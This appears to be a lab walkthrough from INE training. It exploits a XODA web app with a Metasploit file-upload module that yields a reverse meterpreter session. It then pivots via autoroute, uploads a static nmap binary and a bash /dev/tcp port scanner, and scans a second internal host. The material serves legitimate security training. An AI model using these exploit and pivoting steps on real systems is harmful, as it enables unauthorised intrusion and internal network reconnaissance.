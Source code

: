 # Network Service Scanning
1. Check if the target machine is reachable:
   ```
   ping -c 4 demo1.ine.local
   ```
   ![image](https://github.com/user-attachments/assets/ff8f8865-6d62-485e-b22a-0ad98c4fec77)

2. We can now perform a default Nmap port scan on the target to identify the open ports on the target system, this can be done by running the following command:
   ```
   nmap demo1.ine.local
   ```
   ![image](https://github.com/user-attachments/assets/9e9581f6-533a-48c7-91af-9d62bd3c071c)

3. Check the HTTP content hosted on port 80 of the target machine
   ```
   curl demo1.ine.local
   ```
   As mentioned in the challenge, a XODA web app instance is running on the system which can be exploited using the “exploit/unix/webapp/xoda_file_upload” Metasploit module.
   ![image](https://github.com/user-attachments/assets/ebc12817-c13b-4510-a89a-6d561be52e26)

4. Start msfconsole and select the mentioned module and set the parameter values
   ```
   use exploit/unix/webapp/xoda_file_upload
   set RHOSTS demo1.ine.local
   set TARGETURI /
   set LHOST 192.63.4.2
   exploit
   ```
   ![image](https://github.com/user-attachments/assets/c98b97a8-7819-432d-b251-d76e5a1828c5)

5. A meterpreter session is spawned on the target machine. Start a command shell and identify the IP address range of the second target machine.
   ```
   shell
   ip addr
   ```
   ![image](https://github.com/user-attachments/assets/d4a61b2d-08ef-4b52-a7c7-02227fc0ae8e)

6. The IP address of the first target machine on its eth1 interface is 192.180.108.2, the second target machine will be located at 192.180.108.3 on the second network.
   Add the route to Metasploit's routing table
   ```
   run autoroute -s 192.180.108.2
   ```
   ![image](https://github.com/user-attachments/assets/51bd26de-f399-427e-ad49-b8f1a158014f)

7. Background the current meterpreter session and use the portscan tcp module of Metasploit to scan the second target machine. Press CTRL+z and Enter y to background the meterpreter session.
   ```
   use auxiliary/scanner/portscan/tcp
   set RHOSTS 192.180.108.3
   set verbose false
   set ports 1-1000
   exploit
   ```
   ![image](https://github.com/user-attachments/assets/26755772-8fec-4111-9938-48a63aea697c)

8. Check the static binaries available in the "/usr/bin/" directory.
   ```
   ls -al /root/static-binaries/nmap
   file /root/static-binaries/nmap
   ```
   ![image](https://github.com/user-attachments/assets/903cc066-017d-417d-aaa6-3f5859c61500)


9. Background the Metasploit session and create a bash port scanning script. Press CTRL+z to background the Metasploit session. Using the script provided at [https://catonmat.net/tcp-port-scanner-in-bash] as a reference, create a bash script to scan the first 1000 ports
   ```
   #!/bin/bash
   for port in {1..1000}; do
   timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
   done
   ```
   Save the script as bash-port-scanner.sh
   ![image](https://github.com/user-attachments/assets/613d7a47-01a4-4008-b987-6dd7c133a159)

10. Foreground the Metasploit session and switch to the meterpreter session. Press "fg" and press enter to foreground the Metasploit session.
    ```
    sessions -i 1
    ```
    ![image](https://github.com/user-attachments/assets/f2cc2c6a-cb08-4c87-aa5e-d345b86a8b34)

11. Upload the nmap static binary and the bash port scanner script to the target machine.
    ```
    upload /root/static-binaries/nmap /tmp/nmap
    upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
    ```
    ![image](https://github.com/user-attachments/assets/dc38b651-ac15-4698-add6-bdddb71fe0f0)

12. Make the binary and script executable and use the bash script to scan the second target machine.
    ```
    shell
    cd /tmp/
    chmod +x ./nmap ./bash-port-scanner.sh
    ./bash-port-scanner.sh 192.180.108.3
    ```
    ![image](https://github.com/user-attachments/assets/a1a8a2f6-3ae0-4d07-b5c2-93d1e19a766f)

13. Three ports are open on the target machine, ports 21, 22 and 80. Using the nmap binary, scan the target machine for open ports.
    ```
    ./nmap -p- 192.180.108.3
    ```
    ![image](https://github.com/user-attachments/assets/981f8fca-bcd4-4936-8d0a-8e6522266ba6)
    
    The services running on the target machine are FTP, SSH and HTTP.




